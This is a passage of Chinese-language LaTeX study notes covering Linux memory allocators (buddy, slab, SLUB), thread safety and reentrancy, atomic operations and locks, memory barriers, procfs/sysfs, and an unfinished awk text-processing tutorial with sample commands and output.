In this system, memory is allocated into several pools of memory instead of just one, where each pool represents blocks of memory of a certain power of two in size. All blocks of a particular size are kept in a sorted linked list or tree and all new blocks that are formed during allocation are added to their respective memory pools for later use. If a smaller size is requested than is available, the smallest available size is selected and halved. One of the resulting halves is selected, and the process repeats until the request is complete. When a block is allocated, the allocator will start with the smallest sufficiently large block to avoid needlessly breaking blocks. When a block is freed, it is compared to its buddy. If they are both free, they are combined and placed in the next-largest size buddy-block list.
一个内存块被释放时,需要找到其buddy,判断是否合并。通过一个异或运算即可找到其buddy。

Linux用伙伴系统来管理连续页帧。为了在同一页帧内部的小对象分配,早期的Linux使用13个几何分布内存池(块长均为2的幂,32字节到128KB),而伙伴系统用于向内存池供给。
后来Linux改用slab分配器。

\subsection{slab分配器}
slab分配器最早被Solaris2.4被 Jeff Bonwick 引入,广泛用于Unix类操作系统,包括Linux。Linux自2.6.23版本开始以SLUB分配器代替slab分配器作为默认分配器。
Jeff 发现对内核中普通对象进行初始化所需的时间超过了对其进行分配和释放所需的时间。因此他的结论是不应该将内存释放回一个全局的内存池,而是将内存保持为针对特定目而初始化的状态。例如,如果内存被分配给了一个互斥锁,那么只需在为互斥锁首次分配内存时执行一次互斥锁初始化函数(mutex\_init)即可。

每一种类型的对象对应的存储系统成为一个cache(\verb$kmem_cache_t$类型)。每一个对象的cache系统由一个或多个slab构成,每个slab是一组连续的页帧,容纳多个对象块。
内核中用slab分配器提供内存的资源包括进程描述字,文件描述符,信号量等。内核周期性扫描各cache,释放空的slab。

\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/LinuxSlabAllocator.png}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/LinuxKmemSlab.png}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/SlabAndObjects.png}
	    \caption{Linux内核slab分配器结构}
	\label{fig:LinuxSlabAllocator}
	\end{center}
\end{figure}



Memcached用slab分配器作内存管理。注意网上谈论的slab分配器多是memcached的分配器,而不是Linux内核的。
\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/slabAndChunk.png}
	\caption{Memcached:slab和chunk}
	\label{fig:slabAndChunk}
	\end{center}
\end{figure}




与传统的内存管理模式相比,slab缓存分配器提供了很多优点。首先,内核通常依赖于对小对象的分配,它们会在系统生命周期内进行无数次分配。slab缓存分配器通过对类似大小的对象进行缓存而提供这种功能,从而避免了常见的碎片问题。slab分配器还支持通用对象的初始化,从而避免了为同一目而对一个对象重复进行初始化。最后,slab分配器还可以支持硬件缓存对齐和着色,这允许不同缓存中的对象占用相同的缓存行,从而提高缓存的利用率并获得更好的性能。


Linux内核中,slab分配器具体用法可以这样:
\begin{lstlisting}[language=C++]
struct kmem_cache *cachep = NULL;
cachep = kmem_cache_create("cache_name", 
  sizeof(struct mystruct), 0, SLAB_HWCACHE_ALIGN, NULL, NULL);
struct yourstruct *bodyp = NULL;
bodyp = (struct yourstruct *) kmem_cache_alloc(cachep, 
  GFP_ATOMIC & ~__GFP_DMA);
// .... use bodyp
kmem_cache_free(cachep, bodyp);
// .... other stuff
kmem_cache_destroy(cachep);
\end{lstlisting}


proc文件系统提供了一种简单的方法来监视系统中所有活动的 slab 缓存。这个文件称为 /proc/slabinfo,
它除了提供一些可以从用户空间访问的可调整参数之外,还提供了有关所有slab缓存的详细信息。
要调优特定的slab缓存,可以简单地向 /proc/slabinfo 文件中以字符串的形式回转slab缓存名称和3个可调整的参数。
格式为 “cacheName limit batchcount sharedfactor”:
\begin{verbatim}
# echo "my_cache 128 64 8" > /proc/slabinfo
\end{verbatim}
limit字段表示每个CPU可以缓存的对象的最大数量。
batchcount字段是当缓存为空时转换到每个CPU缓存中全局缓存对象的最大数量。sharedfactor参数说明了SMP系统的共享行为。





Linux内核之内存管理
\url{http://www.360doc.com/content/13/0414/15/7044580_278199905.shtml}

\subsection{slab, slub和slob}

Slab是基础,是最早从Sun OS那引进的;Slub是在Slab上进行的改进,在大型机上表现出色;而Slob(Simple List Of Blocks)是针对小型系统设计的,主要是嵌入式。


SLAB是Linux上一个古老的内存分配器。因为其结构复杂,所以几乎没有人敢修改它。
众所周知,操作系统进行内存分配的时候,是以页为单位进行的,也可以称为内存块或者堆。但是内核对象远小于页的大 小,而这些对象在操作系统的生命周期中会被频繁的申请和释放,并且实验发现,这些对象初始化的时间超过了分配内存和释放内存的总时间,所以需要一种更细粒 度的针对内核对象的分配算法,于是SLAB诞生了:
SLAB缓存已经释放的内核对象,以便下次申请时不需要再次初始化和分配空间,类似对象池的概念。并且没有修改通用的内存分配算法,以保证不影响大内存块分配时的性能。

SLAB最上层为一个由多个kmem\_cache组成的cache chain。
每个kmem\_cache由slabs\_full,slabs\_partial,slabs\_empty这3个队列组成,分别标记slab全部已被分配的 页,部分被分配的页,为分配slab的页。显然,一个新的slab申请到达时,slab\_partial页会被考虑;一个内存块释放时, slab\_empty将被优先考虑。

由于SLAB按照对象的大小进行了分组,在分配的时候不会产生堆分配方式的碎片,也不会产生Buddy分配算法中的空间浪费,并且支持硬件缓存对齐来提高TLB的性能,堪称完美。
但是这个世界上没有完美的算法,一个算法要么占用更多的空间以减少运算时间,要么使用更多的运算时间减少空间的占用。优秀的算法就是根据实际应用情况在这 两者之间找一个平衡点。SLAB虽然能更快的分配内核对象,但是metadata,诸如缓存队列等复杂层次结构占用了大量的内存。

SLUB("the unqueued slab allocator") 因此而诞生:
SLUB 不包含SLAB这么复杂的结构。SLAB不但有队列,而且每个SLAB开头保存了该SLAB对象的metadata。SLUB只将相近大小的对象对齐填入页面,并且保存了未分配的SLAB对象的链表,访问的时候容易快速定位,省去了队列遍历和头部metadata的偏移计算。该链表虽然和SLAB一样是每 CPU节点单独维护,但使用了一个独立的线程来维护全局的SLAB对象,一个CPU不使用的对象会被放到全局的partial队列,供其他CPU使用,平 衡了个节点的SLAB对象。回收页面时,SLUB的SLAB对象是全局失效的,不会引起对象共享问题。另外,SLUB采用了合并相似SLAB对象的方法, 进一步减少内存的占用。

据内核开发人员称,SLUB相对于SLAB有5\%-10\%的性能提升和减少50\%的内存占用。所以SLUB是一个时间和空间上均有改善的算法,而且SLUB完全兼容SLAB的接口,所以内核其他模块不需要修改即可从SLUB的高性能中受益。SLUB在2.6.22内核中理所当然的替代了SLAB。

SLAB 分配器多年以来一直位于 Linux 内核的内存管理部分的核心地带,内核黑客们一般不愿意主动去更改它的代码,因为它实在是非常复杂,而且在大多数情况下,它的工作完成的相当不错。但是,随着大规模多处理器系统和 NUMA系统的广泛应用,SLAB 分配器逐渐暴露出自身的严重不足:
1. 较多复杂的队列管理。在 SLAB 分配器中存在众多的队列,例如针对处理器的本地对象缓存队列,slab 中空闲对象队列,每个 slab 处于一个特定状态的队列中,甚至缓冲区控制结构也处于一个队列之中。有效地管理这些不同的队列是一件费力且复杂的工作。

2. slab 管理数据和队列的存储开销比较大。每个 slab 需要一个 struct slab 数据结构和一个管理所有空闲对象的 kmem\_bufctl\_t(4 字节的无符号整数)的数组。当对象体积较少时,kmem\_bufctl\_t 数组将造成较大的开销(比如对象大小为32字节时,将浪费 1/8 的空间)。为了使得对象在硬件高速缓存中对齐和使用着色策略,还必须浪费额外的内存。同时,缓冲区针对节点和处理器的队列也会浪费不少内存。测试表明在一个 1000 节点/处理器的大规模 NUMA 系统中,数 GB 内存被用来维护队列和对象的引用。

3. 缓冲区内存回收比较复杂。

4. 对 NUMA 的支持非常复杂。SLAB 对 NUMA 的支持基于物理页框分配器,无法细粒度地使用对象,因此不能保证处理器级缓存的对象来自同一节点。

5. 冗余的 Partial 队列。SLAB 分配器针对每个节点都有一个 Partial 队列,随着时间流逝,将有大量的 Partial slab 产生,不利于内存的合理使用。

6. 性能调优比较困难。针对每个 slab 可以调整的参数比较复杂,而且分配处理器本地缓存时,不得不使用自旋锁。

7. 调试功能比较难于使用。

为了解决以上 SLAB 分配器的不足之处,内核开发人员 Christoph Lameter 在 Linux 内核 2.6.22 版本中引入一种新的解决方案:SLUB 分配器。
SLUB 分配器特点是简化设计理念,同时保留 SLAB 分配器的基本思想:每个缓冲区由多个小的 slab 组成,每个 slab 包含固定数目的对象。SLUB 分配器简化了kmem\_cache,slab 等相关的管理数据结构,摒弃了SLAB 分配器中众多的队列概念,并针对多处理器、NUMA 系统进行优化,从而提高了性能和可扩展性并降低了内存的浪费。为了保证内核其它模块能够无缝迁移到 SLUB 分配器,SLUB 还保留了原有 SLAB 分配器所有的接口 API 函数。


\subsection{Bélády's anomaly}
所谓\textbf{Belady}现象是指:采用FIFO算法(选择装入最早的页面置换)时,如果对—个进程未分配它所要求的全部页面,有时就会出现分配的页面数增多但缺页率反而提高的异常现象。
原因是,增加了页帧后,本应丢失的帧被命中,但逐渐移到队头,而不是追加到队尾,改变了各帧的相对顺序,后果比较复杂。












\clearpage


%!Mode:: "TeX:UTF-8"
\section{线程安全与可重入性}

\subsection{线程安全}
如果一段代码是\textbf{线程安全}的,那么多个线程在同时执行它时能确保逻辑正确。

维基百科为线程安全程度分为三类:线程安全,有条件线程安全(conditionally thread safe)和线程不安全。
有条件线程安全指对不同对象的并发访问是安全的,对共享对象的访问需被保护以防竞跑(Race)。

有两类策略可用来消除数据竞跑以达到线程安全。
第一类策略致力于消除共享状态:
\begin{itemize}
\item 代码要做到可重入:部分执行后可被重新执行,并能确保原执行正确结束。
状态信息应保存于每次“执行”的本地,一般在栈上。所有非本地状态必须通过原子操作访问,并且数据结构须为可重入的。
\item 使用线程本地存储(Thread-local storage)。
\end{itemize}
第二类策略用于共享状态无法避免的情形,依赖于同步操作,包括互斥锁、原子操作、immutable对象等。
\begin{quotation}
引入自旋锁的隐患包括死锁、“活锁”和资源饥饿。
\end{quotation}

大多数Unix函数是线程安全的(malloc,free,printf),只有少数例外,如rand,asctime,ctime,strtok,gethostbyaddr,gethostbyname,inet\_ntoa。
Unix为大多数线程不安全函数提供了可重入版本,用\_r作为后缀。

\cite{csapp}总结了四类线程不安全函数:
\begin{enumerate}
\item 不保护共享变量的函数。可用同步操作来改进,不用改变原有接口。
\item 保存多次调用间的状态的函数,如stdlib.h的rand()和string.h的strtok()。
	如欲改进必须改变原接口,让调用间状态作为参数传入下一次调用,如非标准的rand\_r()和strtok\_r()。
\item 返回指向静态变量指针的函数,如ctime(), gethostbyname()。
有两种改进策略,一是改变原有接口,让调用者传入额外参数存放返回值,如ctime\_r(), gethostbyname\_r();
二是使用lock-and-copy策略再次封装。
\item 调用线程不安全函数的函数,\textbf{可能}会成为线程不安全函数。
\cite{csapp}认为如果调用了1型或3型线程不安全函数,可以在本函数中增加同步操作wrapper,使本函数做到线程安全。
我认为此举的前提是被调用的不安全函数不会在他处被调用。
\end{enumerate}


\subsection{可重入性}
 可重入概念是在单线程操作系统的时代提出的。
 一段程序或例程是可重入的,如果它能在执行完成之前被打断并作重新调用(重入),当重入的调用完成后原调用能够正确地恢复执行。
一段程序的重入,可能由于自身原因,如执行了jmp或者call,类似于子程序的递归调用;
或者由于硬件中断,UNIX系统的signal的处理,即子程序被中断处理程序或者signal处理程序调用。
重入的子程序,按照后进先出线性序依次执行。

中断服务例程必须是可重入的,它们通常被禁止访问文件系统,甚至不允许分配内存。
直接或间接执行递归的函数也需要是可重入的。

可重入性不同于幂等性(Idempotence, $f(f(x))=f(x)$)。

可重入程序可用于实现线程安全,《CSAPP》认为可重入程序是线程安全程序的真子集,但维基百科认为可重入程序未必是线程安全的,例如下面这个程序。
这是因为不同文献对可重入性的定义不同。
\begin{lstlisting}[language=C++]    
int t;
 
void swap(int *x, int *y)
{
    int s;
 
    s = t; // save global variable
    t = *x;
    *x = *y;
 
    // hardware interrupt might invoke isr() here!
    *y = t;
    t = s; // restore global variable
}
 
void isr()
{
    int x = 1, y = 2;
    swap(&x, &y);
}
\end{lstlisting}




若一个函数是可重入的,则该函数:
\begin{itemize}
\item 最好不要含有静态(全局)非常量数据,除非是通过原子操作访问。
\item 最好不要修改自身代码,除非对自身的代码有私有拷贝。
\item 不能调用(call)不可重入的函数(有呼叫(call)到的函数需满足前述条件)。
\end{itemize}


 下述例子是线程安全的,但不是可重入的:
\begin{lstlisting}[language=C++]    
int function()
{
 mutex_lock();
 ...
 function body
 ...
 mutex_unlock();
}
\end{lstlisting}

 
 
 \subsection{线程安全计数器类的实现\cite{wikipedia}}
以下Java代码为线程安全的:
\begin{lstlisting}[language=Java]  
class Counter {
    private int i = 0; 
    public synchronized void inc() {
        i++;
    }
}
\end{lstlisting}

以下C代码为线程安全的,但不可重入。如果本代码用于一个中断handler中,执行过程中再次发生中断,则第二次调用将永远旋住。
\begin{lstlisting}[language=C]    
#include <pthread.h>
 
int increment_counter ()
{
	static int counter = 0;
	static pthread_mutex_t mutex = PTHREAD_MUTEX_INITIALIZER;
 
	pthread_mutex_lock(&mutex); 
	// only allow one thread to increment at a time
	++counter;
	// store value before any other threads increment it further
	int result = counter; 
	pthread_mutex_unlock(&mutex);
 
	return result;
}
\end{lstlisting}

以下代码用C++的原子类型作无锁实现,为线程安全、可重入的:
\begin{lstlisting}[language=C++]    
#include <atomic>
 
int increment_counter ()
{
	static std::atomic<int> counter(0); 
	int result = ++counter; 
	return result;
}
\end{lstlisting}

 
 
 
 
 \subsection{Java中的线程安全}
对于 Java 类中常见的线程安全性级别,没有一种分类系统可被广泛接受。
Joshua Bloch给出了描述五类线程安全性的分类方法:
\begin{description}
\item[不可变]不可变的对象一定是线程安全的,并且永远也不需要额外的同步。
因为一个不可变的对象只要构建正确,其外部可见状态永远也不会改变,永远也不会看到它处于不一致的状态。
Java 类库中大多数基本数值类如 Integer 、 String 和 BigInteger 都是不可变的。
\item[线程安全]“线程安全”是很严格的,不管运行时环境如何排列,线程都不需要任何额外的同步。
Java的Vector、HashTable都不满足线程安全。
\item[有条件线程安全]有条件的线程安全类对于单独的操作可以是线程安全的,但是某些操作序列可能需要外部同步。
条件线程安全的最常见的例子是遍历由 Hashtable 或者 Vector 或者返回的迭代器。
由这些类返回的由这些类返回的 fail-fast 迭代器假定在迭代器进行遍历的时候底层集合不会有变化。
为了保证其他线程不会在遍历的时候改变集合,进行迭代的线程应该确保它是独占性地访问集合以实现遍历的完整性。
\item[线程兼容]线程兼容类不是线程安全的,但是可以通过正确使用同步而在并发环境中安全地使用。
这可能意味着用一个 synchronized 块包围每一个方法调用,或者创建一个包装器对象,其中每一个方法都是同步的。
\item[线程对立]线程对立类是那些不管是否调用了外部同步都不能在并发使用时安全地呈现的类。
线程对立很少见,当类修改静态数据,而静态数据会影响在其他线程中执行的其他类的行为,这时通常会出现线程对立。
\end{description}
这种系统有其局限性:各类之间的界线不是百分之百地明确,而且有些情况它没照顾到。 
 
\subsection{C++ 的线程安全}
在STL容器(和大多数厂商的愿望)里对多线程支持的黄金规则已经由SGI定义,并且在它们的STL网站上发布。
在访问不同对象的时候无需加锁,对共享对象并发读取时也是安全的。
但多个线程对共享对象进行读、写时,STL的用户必须自行执行保护。
 
 \subsection{False sharing问题}
在做多线程程序的时候,为了避免使用锁,我们通常会采用这样的数据结构:根据线程的数目,安排一个数组, 每个线程一个项,互相不冲突。
从逻辑上看这样的设计无懈可击,但是实践的过程我们会发现这样并没有提高速度。
问题在于cpu的cache line. 我们在读主存的时候,数据同时被读到L1,L2中去,而且在L1中是以cache line(通常64)字节为单位的。
每个Core都有自己的L1,L2,所以每个线程在读取自己的项的时候, 也把别人的项读进去, 所以在别人的项更新的时候,为了保持数据的一致性, core之间cache要进行同步, 这个会导致严重的性能问题. 这就是所谓的False sharing问题 。
\begin{lstlisting}[language=C++]                      
typedef union {
    erts_smp_rwmtx_t rwmtx;
    byte cache_line_align__[ERTS_ALC_CACHE_LINE_ALIGN_SIZE(
                                sizeof(erts_smp_rwmtx_t))];
} erts_meta_main_tab_lock_t;
\end{lstlisting}

或者:
\begin{lstlisting}[language=C++]                      
_declspec (align(64)) int thread1_global_variable;
__declspec (align(64)) int thread2_global_variable;
\end{lstlisting}
 
 









%!Mode:: "TeX:UTF-8"
\section{同步保护}

\subsection{读-改-写(read-modify-write)}
读改写操作包括TestAndSet, FetchAndAdd, and CompareAndSwap(CAS)等原子操作,能够在多线程程序中消除竞跑,用于实现互斥锁、信号量,以及无锁、无等待算法。
TestAndSet的consensus numbers为2,而CAS的consensus numbers为无穷大。

TestAndSet操作在旧值为0时将其置1,不论成功与否均返回旧值。

load-link and store-conditional (LL/SC)是一对操作,LL加载某内存值,随后SC试图在该内存处写入,仅当该处在两个操作之间未发生过更新时才成功。

FetchAndAdd的行为类似于:
\begin{lstlisting}[language=C++]
<< atomic >>
function FetchAndAdd(address location, int inc) {
    int value := *location
    *location := value + inc
    return value
}
\end{lstlisting}


\subsection{互斥锁的实现}

加锁操作可用原子TestAndSet操作实现:
\begin{lstlisting}[language=C++]
function Lock(boolean *lock)
{
    while (TestAndSet(lock) == 1);
}
\end{lstlisting}

基于TestAndSet操作实现临界区保护:
(\url{http://en.wikipedia.org/wiki/Test-and-set})
\begin{lstlisting}[language=C++]
volatile int lock = 0;

void Critical() {
    while (TestAndSet(&lock) == 1);
    critical section // only one process can be in this section at a time
    lock = 0 // release lock when finished with the critical section
}
\end{lstlisting}

频繁地调用TestAndSet非常昂贵,事实上可以使用更为精细的Test-and-TestAndSet技巧来实现优化:仅当普通读操作认为未上锁时才执行原子操作。
\begin{lstlisting}[language=C++]
 procedure EnterCritical() {
   while ( locked == true or TestAndSet(locked) == true )
     skip // spin until locked
 }
\end{lstlisting}

基于FetchAndAdd操作可以用ticket lock算法实现互斥锁:
\begin{lstlisting}[language=C++]
record locktype {
    int ticketnumber
    int turn
 }
 procedure LockInit( locktype* lock ) {
    lock.ticketnumber := 0
    lock.turn := 0
 }
 procedure Lock( locktype* lock ) {
    int myturn := FetchAndIncrement( &lock.ticketnumber )
    while lock.turn ≠ myturn 
        skip // spin until lock is acquired
 }
 procedure UnLock( locktype* lock ) {
    FetchAndIncrement( &lock.turn )
 }
\end{lstlisting}


\subsection{内存屏障}
\label{subsec:MemBarrier}
内存屏障,也称内存栅栏,内存栅障,屏障指令等, 是一类同步屏障指令,使得CPU或编译器在对内存随机访问的操作中的一个同步点,使得此点之前的所有读写操作都执行后才可以开始执行此点之后的操作。

大多数现代计算机为了提高性能而采取乱序执行,这使得内存屏障成为必须。

语义上,内存屏障之前的所有写操作都要写入内存;内存屏障之后的读操作都可以获得同步屏障之前的写操作的结果。因此,对于敏感的程序块,写操作之后、读操作之前可以插入内存屏障。

C与C++语言中,volatile关键字意图允许内存映射的I/O操作。
这要求编译器对此的数据读写按照程序中的先后顺序执行,不能对volatile内存的读写重排序,也不能对读写进行省略(我的理解是不能从寄存器和cache中读写)。
但volatile不是内存栅栏,因为volatile内存和非volatile内存之间的相互顺序不能保证(编译器乱序)。
因为cache问题,volatile也不保证别的核看见的顺序是正确的(机器乱序)。
因此volatile变量不足以作为线程间通信的flag。
在C11和C++11之前,C/C++不处理多线程问题,volatile的有效性取决于编译器和硬件。

Java 1.5引入了新的内存模型,其volatile关键词已经能编译器乱序和机器乱序问题。
C++11标准化了原子操作,也能达到类似作用。

\subsection{无锁队列}
陈皓给出的无锁队列算法\footnote{\url{http://coolshell.cn/articles/8239.html}}:
\begin{lstlisting}[language=C++]
//这里head始终指向哨兵结点,tail只有为空时才指向哨兵。
EnQueue (x) //进队列
{
    //准备新加入的结点数据
    q = new record ();
    q->value = x;
    q->next = NULL;
 
    do {
        p = tail; //取链表尾指针的快照
    } while( CAS (p->next, NULL, q) != TRUE); //如果没有把结点链上,再试
 
    CAS (tail, p, q); //置尾结点
}

EnQueue(x) //进队列改良版,解决线程在设置尾结点前停掉的问题
{
    q = new record();
    q->value = x;
    q->next = NULL;
 
    p = tail;
    oldp = p
    do {
        while (p->next != NULL)
            p = p->next;
    } while( CAS(p.next, NULL, q) != TRUE); //如果没有把结点链在尾上,再试
 
    CAS(tail, oldp, q); //置尾结点
}

DeQueue() //出队列
{
    do{
        p = head;
        if (p->next == NULL){
            return ERR_EMPTY_QUEUE;
        }
    while( CAS(head, p, p->next) != TRUE );
    return p->next->value;
}
//其他实现参考:
//http://www.ibm.com/developerworks/cn/aix/library/au-multithreaded_structures2/index.html
//http://www.codeproject.com/Articles/153898/Yet-another-implementation-of-a-lock-free-circular
//http://www.drdobbs.com/parallel/writing-lock-free-code-a-corrected-queue/210604448?pgno=2
\end{lstlisting}








%!Mode:: "TeX:UTF-8"
\section{操作系统实例}

Unix包括:
\begin{description}
\item [AIX] IBM开发的一套UNIX操作系统
\item [Solaris] SUN公司研制的类Unix操作系统
\item [HP-UX] 惠普科技公司(HP,Hewlett-Packard)以SystemV为基础所研发成的类UNIX操作系统。
\item [IRIX] SGI)以System V与BSD延伸程序为基础所发展成的UNIX操作系统,IRIX可以在SGI公司的RISC型电脑上运行
\item [Xenix] 是一种UNIX操作系统,可在个人电脑及微型计算机上使用
\end{description}

Mac OS X使用Darwin作为系统核心,而Darwin核心是以FreeBSD为范本加以改写而成。

Linux包括OpenSuse,Gentoo,Slackware,Mandriva等。




%!Mode:: "TeX:UTF-8"
\section{Procfs和Sysfs}

\subsection{Procfs}
在许多类 Unix 计算机系统中, procfs是进程文件系统 (file system) 的缩写,包含一个伪文件系统(启动时动态生成的文件系统),用于通过内核访问进程信息。这个文件系统通常被挂载到 /proc 目录。由于 /proc 不是一个真正的文件系统,它也就不占用存储空间,只是占用有限的内存。

The proc file system acts as an interface to internal data structures in the kernel. It can be used to obtain information about the system and to change certain kernel parameters at runtime (sysctl).
The proc filesystem provides a method of communication between kernel space and user space. For example, the GNU version of ps uses the procfs to obtain its data, without using any specialized system calls.

task目录就是用来描述进程中线程的,因此也可以通过下面的方法获取某进程中运行中的线程数量(PID指的是进程ID):
\begin{verbatim}
ls /proc/PID/task | wc -l
\end{verbatim}  


\subsection{Sysfs}
Sysfs 是 Linux 2.6 所提供的一种虚拟文件系统。这个文件系统不仅可以把设备(devices)和驱动程序(drivers) 的信息从内核输出到 用户空间,也可以用来对设备和驱动程序做设置。
当时由于procfs 文件系统过度混乱,包含了许多不是进程(process)的信息, sysfs 的目的是把一些原本在 procfs 中的,关于设备的部份独立出来,以‘设备层次结构架构’(device tree)的形式呈现。
每个被加入 driver model tree 内的对象,包括驱动程序、设备以及 class 设备,都会在 sysfs 文件系统中以一个目录呈现。

Sysfs通常被加载到/sys目录。

\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/DeviceDriverModelHierarchyExample.png}
	\caption{驱动程序模型层次}
	\label{fig:DeviceDriverModelHierarchyExample}
	\end{center}
\end{figure}

sysfs 一开始以 ramfs 为基础,也是一个只存在于存储器中的文件系统。sysfs 刚开始被命名成 ddfs (Device Driver Filesystem),当初只是为了要对新的驱动程序模型除错而开发出来的。它在除错时,会把设备架构(device tree)的信息输出到 procfs 文件系统中。但在 Linus Torvalds 的急切督促下,ddfs 被转型成一个以 ramfs 为基础的文件系统。在新的驱动程序模型被集成进 2.5.1 核心时,ddfs 被改名成 driverfs,以更确切描述它的用途。在2.5 核心开发的次年,新的“驱动程序模型”和 "driverfs" 证明了对核心中的其他子系统也有用处。kobjects 被开发出来,作为核心对象的中央管理机制,而此时 driverfs 也被改名成 sysfs。



\clearpage
%!Mode:: "TeX:UTF-8"
 \chapter{脚本编程: Python, Lua, Bash, Awk等}


%!Mode:: "TeX:UTF-8"
\section{awk语言}

AWK是一种优良的文本处理工具,是Linux及Unix环境中现有的功能最强大的数据处理引擎之一。
AWK提供了极其强大的功能:可以进行正则表达式的匹配,样式装入、流控制、数学运算符、进程控制语句甚至于内置的变量和函数。它具备了一个完整的语言所应具有的几乎所有精美特性。实际上AWK的确拥有自己的语言:AWK程序设计语言,三位创建者已将它正式定义为“样式扫描和处理语言”。它允许您创建简短的程序,这些程序读取输入文件、为数据排序、处理数据、对输入执行计算以及生成报表,还有无数其他的功能。gawk是AWK的GNU版本。

Awk提供了适应多种需要的不同解决方案,它们是:
\begin{enumerate}
\item awk命令行,在命令行中用单引号包含awk程序设计语句
\item ’\verb$awk -f filename$‘ 形式
\item 利用命令解释器调用awk程序:\verb$’#!/bin/awk -f‘$
\end{enumerate}

AWK程序是由一系列模式--动作对组成的,写做’pattern { action }‘。action包含以下部分:
\begin{verbatim}
BEGIN{ 这里面放的是执行前的语句 }
END {这里面放的是处理完所有的行后要执行的语句 }
{这里面放的是处理每一行时要执行的语句}
\end{verbatim}

强引用(单引号)和大括号用来包含shell脚本中的awk代码段.
Awk将传递进来的每行输入都分割成域. 默认情况下, 一个域指的就是使用空白分隔的一个连续字符串, 不过我们可以修改属性来改变分隔符. Awk将会分析并操作每个分割域. 因为这种特性, 所以awk非常善于处理结构化的文本文件 -- 尤其是表 -- 将数据组织成统一的块, 比如说分成行和列.

假设有如下文件:
\begin{verbatim}
$ cat netstat.txt
Proto Recv-Q Send-Q Local-Address          Foreign-Address             State
tcp        0      0 0.0.0.0:3306           0.0.0.0:*                   LISTEN
tcp        0      0 0.0.0.0:80             0.0.0.0:*                   LISTEN
tcp        0      0 127.0.0.1:9000         0.0.0.0:*                   LISTEN
tcp        0      0 coolshell.cn:80        124.205.5.146:18245         TIME_WAIT
tcp        0      0 coolshell.cn:80        61.140.101.185:37538        FIN_WAIT2
tcp        0      0 coolshell.cn:80        110.194.134.189:1032        ESTABLISHED
tcp        0      0 coolshell.cn:80        123.169.124.111:49809       ESTABLISHED
tcp        0      0 coolshell.cn:80        116.234.127.77:11502        FIN_WAIT2
tcp        0      0 coolshell.cn:80        123.169.124.111:49829       ESTABLISHED
tcp        0      0 coolshell.cn:80        183.60.215.36:36970         TIME_WAIT
tcp        0   4166 coolshell.cn:80        61.148.242.38:30901         ESTABLISHED
tcp        0      1 coolshell.cn:80        124.152.181.209:26825       FIN_WAIT1
tcp        0      0 coolshell.cn:80        110.194.134.189:4796        ESTABLISHED
tcp        0      0 coolshell.cn:80        183.60.212.163:51082        TIME_WAIT
tcp        0      1 coolshell.cn:80        208.115.113.92:50601        LAST_ACK
tcp        0      0 coolshell.cn:80        123.169.124.111:49840       ESTABLISHED
tcp        0      0 coolshell.cn:80        117.136.20.85:50025         FIN_WAIT2
tcp        0      0 :::22                  :::*                        LISTEN 
\end{verbatim}

选列打印:
\begin{verbatim}
$ awk '{print $1, $4}' netstat.txt
\end{verbatim}

awk的格式化输出,和C语言的printf语法一致。\verb|$0|表示整段记录。
\begin{verbatim}
$ awk '{printf "%-8s %-8s %-8s %-18s %-22s %-15s\n",$1,$2,$3,$4,$5,$6}' netstat.txt
Proto    Recv-Q   Send-Q   Local-Address      Foreign-Address        State
tcp      0        0        0.0.0.0:3306       0.0.0.0:*              LISTEN
tcp      0        0        0.0.0.0:80         0.0.0.0:*              LISTEN
tcp      0        0        127.0.0.1:9000     0.0.0.0:*              LISTEN
tcp      0        0        coolshell.cn:80    124.205.5.146:18245    TIME_WAIT
tcp      0        0        coolshell.cn:80    61.140.101.185:37538   FIN_WAIT2
tcp      0        0        coolshell.cn:80    110.194.134.189:1032   ESTABLISHED
tcp      0        0        coolshell.cn:80    123.169.124.111:49809  ESTABLISHED
tcp      0        0        coolshell.cn:80    116.234.127.77:11502   FIN_WAIT2
tcp      0        0        coolshell.cn:80    123.169.124.111:49829  ESTABLISHED
tcp      0        0        coolshell.cn:80    183.60.215.36:36970    TIME_WAIT
tcp      0        4166     coolshell.cn:80    61.148.242.38:30901    ESTABLISHED
tcp      0        1        coolshell.cn:80    124.152.181.209:26825  FIN_WAIT1
tcp      0        0        coolshell.cn:80    110.194.134.189:4796   ESTABLISHED
tcp      0        0        coolshell.cn:80    183.60.212.163:51082   TIME_WAIT
tcp      0        1        coolshell.cn:80    208.115.113.92:50601   LAST_ACK
tcp      0        0        coolshell.cn:80    123.169.124.111:49840  ESTABLISHED
tcp      0        0        coolshell.cn:80    117.136.20.85:50025    FIN_WAIT2
tcp      0        0        :::22              :::*                   LISTEN
\end{verbatim}

过滤功能:
\begin{verbatim}
$ awk '$3==0 && $6=="LISTEN" || NR==1 {printf "%-20s %-20s %s\n",$4,$5,$6}' netstat.txt
Local-Address        Foreign-Address      State
0.0.0.0:3306         0.0.0.0:*            LISTEN
0.0.0.0:80           0.0.0.0:*            LISTEN
127.0.0.1:9000       0.0.0.0:*            LISTEN
:::22                :::*                 LISTEN
\end{verbatim}
NR是内建变量,表示到目前为止已经处理的行数。

指定分隔符(内建变量FS),以处理不以空格为分隔符的文件:
\begin{verbatim}
$  awk  'BEGIN{FS=":"} {print $1,$3,$6}' /etc/passwd
root 0 /root
bin 1 /bin
daemon 2 /sbin
adm 3 /var/adm
lp 4 /var/spool/lpd
sync 5 /sbin
shutdown 6 /sbin
halt 7 /sbin
\end{verbatim}

字符串匹配:
\begin{verbatim}
$ awk '$6 ~ /FIN/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
6       coolshell.cn:80 61.140.101.185:37538    FIN_WAIT2
9       coolshell.cn:80 116.234.127.77:11502    FIN_WAIT2
13      coolshell.cn:80 124.152.181.209:26825   FIN_WAIT1
18      coolshell.cn:80 117.136.20.85:50025     FIN_WAIT2

或运算:
$ awk '$6 ~ /FIN|TIME/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
5       coolshell.cn:80 124.205.5.146:18245     TIME_WAIT
6       coolshell.cn:80 61.140.101.185:37538    FIN_WAIT2
9       coolshell.cn:80 116.234.127.77:11502    FIN_WAIT2
11      coolshell.cn:80 183.60.215.36:36970     TIME_WAIT
